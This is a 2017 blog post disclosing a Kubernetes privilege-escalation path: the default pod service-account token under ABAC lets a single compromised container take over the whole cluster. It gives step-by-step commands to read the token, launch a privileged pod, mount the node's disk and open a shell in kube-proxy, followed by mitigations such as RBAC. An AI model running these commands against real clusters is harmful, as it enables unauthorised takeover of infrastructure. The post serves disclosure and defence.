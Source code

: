+++
title = "The Kubernetes Vuln No One Wants to Talk About"
date = "2017-07-10"
type = "post"
author = "antitree"
+++

![Kubernetes](/img/kubernetes.png)

## Summary

This blog post is going to show you how to go from exploiting a single container
to gaining root on an entire cluster and all nodes. This is caused by a default
flaw in the way Kubernetes manages containers.

I'm doing a lot more container work at my day job -- looking for container breakouts, container infastructure review, and orchestration technologies.
I've been involved in a few Kubernetes reviews and talked with others in the company about it and there's one vulnerability
that seems to make it into almost every report and yet no one thinks it's as important
as the security folks. So I want to start a dialog.

The issue is that in order for a container/pod to be orchestrated by Kubernetes, it must put
an authentication token _inside_ of the pod. This token grants access complete
control over the kubernetes cluster.

The short of it is this:

**If a single container is compromised, attackers can take over
other pods, nodes, and the entire cluster. Easily.**

If you don't like reading, just open up one of your Kubernetes pods and
look at `/var/run/secrets/kubernetes.io/serviceaccount/token`. If you see
something there you're probably at risk.

## Kubernetes Background

Kubernetes is a system from Google that is seeming (at least to me) to be the
defacto standard for container orchestration. And now that the drama is over
I can say that I actually think it's a great product. It allows you to
orchestrate containers, keep track of key value pairs, handle secrets, and
setup the necessary infrastucture to do all of this out-of-the-box. This
is in comparison to bash scripts and cron jobs that container orchestration
has been doing previously.

The main selling point is scalability and management. Kubernetes can scale up not just
to run additional containers on a system, but create geographicaly disparate
containers across a network overlay seamslessly integrated with a load balancer
that can also auto-heal when it needs.

Kubernetes is in direct competition with Docker Swarm which aims to be
a native solution built directly into Docker. Docker Swarm does support
a lot of the same features but it relies on a lot of additional support
to make it work. (e.g. KV pair storage)

![Kubernetes Diagram](/img/kubernetes_diagram.png)

A couple of Kubernetes words that are operationally important:

* [Pod](https://kubernetes.io/docs/concepts/workloads/pods/pod/): For the sake of discussion, synonymous with container.
* [Node](https://kubernetes.io/docs/concepts/architecture/nodes/): A VM or box that can run pods.
* Services: Applications that do something on your cluster. (e.g. nginx)
* Master Node: A dedicated node that controls all other services.

If you're an attacker, the things you need to know is there could be lots of
services deployed in a cluster. But there is always one Kubernetes Service that
runs all of the management containers. Compromising this service compromises
everything else.

The main flaw as others have mentioned, is there is no security boundary between pods,
nodes, and services. Compromising one compromises them all (unless you're using
RBAC authentication).

## Exploit Setup

I'm not going to say that this attack works on all systems but here are the systems
that it affects:

* Latest Kubernetes as of writing the post
* ABAC authentication controls (default)

If you want to try this out, you can follow the pretty simple
[getting-started guide](https://kubernetes.io/docs/getting-started-guides/minikube/).


## Exploit
* Exploit the container. Run a vulnerable package, get compromised, however
it happens, the attacker is able to get a shell inside of the contatiner.
* Download the `kubectl` binary to interact with the Kubernetes API. Depending
on the pod you might have to install things like curl or wget:

```bash
apt update
apt install curl
curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.6.7/bin/linux/amd64/kubectl
chmod +x ./kubectl
```

* You're going to need to find the Kubernetes cluster master node. Here's
how to find it if you're running the infrastructure:

`kubectl get services`

You'll see
```bash
NAME         CLUSTER-IP   EXTERNAL-IP   PORT(S)        AGE
ghost        10.0.0.134   <nodes>       80:30916/TCP   20m
kubernetes   10.0.0.1     <none>        443/TCP        21m
nginxtest    10.0.0.57    <pending>     80:31399/TCP   11m
```
This represents a ghost container, nginx, and the core kubernetes service which
is what I care about.

But as the attacker you're going to figure out something else. Like:
~~~bash
apt update
apt install nmap
nmap -sS -p443 10.0.0.0/24
~~~
I haven't looked to see how this IP is chosen but it's always been .1 using
Minikube and Tectonic. Your mileage may vary.

* With that information I can now choose to authentication to the kubernetes
API on "10.0.0.1". Check out this command:

```bash
./kubectl --server=https://10.0.0.1
--insecure-skip-tls-verify=true \
--token="$(</var/run/secrets/kubernetes.io/serviceaccount/token)" \
run --rm -i -t busybox --image=busybox --restart=Never \
--overrides='{"apiVersion": "v1", "spec":{"containers":
[{"name":"busybox","image":"busybox","stdin":true, "tty":true,
"securityContext":{"privileged":true}}]}}'
```

This is connecting to the Kubernetes service API, using the token found in
`/var/run/secrets/kubernetes.io/serviceaccount/token`, and starting
a priveleged busy box container -- the priveleged option is obviously the
important part.

* You're now the root user inside a container that maps host information into
the container. From there why not try to read everything on the host file system
```mkdir ohno
mount /dev/sda1 ohno
ls ohno/
```
You've just gained access to all files on that node. There are
more malicious things you can do but container breakouts are a separate subject.

Alternatively, if your goal is to compromise the rest of the cluster, why not
just create a shell inside of the master node's kube-proxy?
```
./kubectl --server=https://master-node --insecure-skip-tls-verify=true \
--token="$(</var/run/secrets/kubernetes.io/serviceaccount/token)"
exec --namespace=kube-system \
-it name-of-kube-proxy-image -c kube-proxy bash
```

**To summarize, you've just pivoted from one compromised pod to compromising
the entire cluster**

## Why it works

The KubeAdmin API communicates using a token (using ABAC auth). This token file is located at
`/var/run/secrets/kubernetes.io/serviceaccount/token`. It's there to send
back useful information to Kubernetes. What's worse is deleting it just means
that it'll be re-created. It's actually a mounted path if you look at it:
`tmpfs on /var/run/secrets/kubernetes.io/serviceaccount type tmpfs (ro,relatime)`

## The fix
Like I said, I don't want to shame Kubernetes. It's going to be a solid product
and their roadmap is great. This is a known issue that should be highlighted
because IMHO, it makes it less secure than someone that ran their own container
orchestration with scripts. I really want Kubernetes to build security boundaries
between each of its components.

Until that happens, here's what you can do to mitigate:

* [Role-Based Access Controls](https://kubernetes.io/docs/admin/authorization/rbac/):
This has been supported for a while but
it was not enabled by default. If you don't use this, AFAIK, you're going
to be vulnerable.
* [Hack jobs](https://hackernoon.com/capturing-all-the-flags-in-bsidessf-ctf-by-pwning-our-infrastructure-3570b99b4dd0): You can think about doing things to try to protect this value
from being read by anyone else. Like I said deleting it doesn't do anything but
overmounting it with an empty directory might slow down an attacker.
* [Wait](https://github.com/kubernetes/kops/issues/1577):** Kubernetes knows about the issue and it's about determining
how to phase the problem out.

Can you think of a better idea? Email me, I'd be interested in hearing it. In
the mean time, if you ever find yourself in a net-pen and compromise a container,
this is your ticket to taking over the rest of their infrastructure.
